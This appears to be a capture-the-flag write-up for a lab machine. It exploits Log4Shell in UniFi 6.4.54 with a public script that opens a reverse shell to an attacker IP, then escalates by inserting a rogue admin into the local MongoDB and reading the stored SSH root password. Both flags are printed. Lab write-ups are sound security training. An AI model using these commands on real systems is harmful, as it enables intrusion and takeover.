




### Recon

we start as usual with `nmap`, using this command:
```bash
nmap -p- -sV --min-rate=10000 $target
``` 


As we can see there are several open ports:
```bash
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http            Apache Tomcat (language: en)
8443/tcp open  ssl/nagios-nsca Nagios NSCA
8843/tcp open  ssl/http        Apache Tomcat (language: en)
8880/tcp open  http            Apache Tomcat (language: en)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Access the webserver and exploit vulnerable version
when accessing the website at port `8080`, we get redirect to port `8443` and can see this page:



We can search for vulnerabilites of `UniFi 6.4.54`, and we find it vulnerable to log4shell.
This git repo https://github.com/puzzlepeaches/Log4jUnifi is jumping to me, we can see it has very simple steps in order to achieve reverse shell on this version.

So, let's follow the steps of the manual installation, and then just execute this command:
```bash
python3 exploit.py -u https://$target:8443 -i 10.10.14.162 -p 770
```


Let's get normal shell, this time we can't use the regular spawning of `tty` using python, because it isn't installed on the system. 

We can use this:
```bash
script /dev/null -c bash
export TERM=xterm
stty raw -echo
stty rows 38 columns 116
```

Now, let's achieve the user flag:
```bash
unifi@unified:/usr/lib/unifi$ cat /home/michael/user.txt
6ced1a6a89e666c0620cdb10262ba127
```

### Privilege escalation

We can follow this article, https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi.

Using `ps aux` we can see there is mongo-db that is running on port `27117`

```bash
unifi@unified:/usr/lib/unifi$ ps aux | grep mongo
unifi         68  0.1  4.1 1103744 85452 ?       Sl   13:20   0:08 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       2037  0.0  0.0  11468  1112 pts/0    S+   14:29   0:00 grep mongo
```

Let's connect to this server, the default db name is `ace`, this is the command:
```bash
mongo --port 27117 ace
```

After connecting, we enumerate all users using this command, we can append db.`forEach(printjson)` at the end, to print it in easier format:
```
db.admin.find();
```

We want to insert another user to `db.admin`, with our hash, so let's generate the hash:
```bash
┌──(agonen㉿kali)-[~/htb/Unified/Log4jUnifi]
└─$ mkpasswd -m sha-512 ourSimplePassword
$6$1RTDf1hc/l8EhVG1$8gMEZhJ4kazHKqvbRw5kRdvZCEF48cAXscqt9fxoeE90sFa1p38shYmlWrP.HLXZ6VDvcD68pP.vQIYCRENYs0
```

And add it to the table, the username will be `elicopter` and password will be `ourSimplePassword`
```
db.admin.insert({ "email" : "elicopter@localhost.local","last_site_name" : "default", "name" : "elicopter","time_created" : NumberLong(100019800), "x_shadow" :"$6$1RTDf1hc/l8EhVG1$8gMEZhJ4kazHKqvbRw5kRdvZCEF48cAXscqt9fxoeE90sFa1p38shYmlWrP.HLXZ6VDvcD68pP.vQIYCRENYs0" });
```



Now, we can login in the login page using our new user `elicopter` and the password `ourSimplePassword`.

After login in, we can go to settings, and search for the ssh password, which we find it to be `NotACrackablePassword4U2022`.

Okay, let's use it to ssh to the system from our machine, and achieve the root password.



**User Flag:*****`6ced1a6a89e666c0620cdb10262ba127`***

**Root Flag:*****`e50bc93c75b634e4b272d2f771c33681`***
